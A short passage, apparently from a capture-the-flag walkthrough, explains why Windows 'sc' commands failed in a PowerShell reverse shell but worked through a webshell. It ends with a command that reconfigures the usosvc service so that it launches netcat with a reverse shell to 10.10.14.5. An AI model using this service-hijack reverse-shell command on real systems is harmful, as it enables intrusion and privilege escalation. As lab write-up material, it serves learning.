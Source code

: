 So basically, the issues was

- The reverse shell misinterprets `sc` due to PowerShell's context or restrictions.
- The `webshell` + `nc2.exe` combo gives you a clean `cmd.exe` session with proper privileges, allowing `sc` to work as expected.
- Use `C:\Windows\System32\sc.exe` or `cmd.exe /c` to force proper command execution in restricted PowerShell shells.
- The webshell uses **`System.Diagnostics.Process`**, which directly starts a child process (`cmd.exe`) with the provided arguments.
- It doesn’t rely on PowerShell's restrictions or context, so the `sc` command runs as it would from a regular CMD session.

It worked !!! lfg

![image.png](image%2035.png)

![image.png](image%2036.png)

Now i run this `sc config usosvc binPath= "C:\windows\temp\nc2.exe 10.10.14.5 6668  -e cmd.exe”` to reconfigure the `usosvc` service to run Netcat (`nc2.exe`).
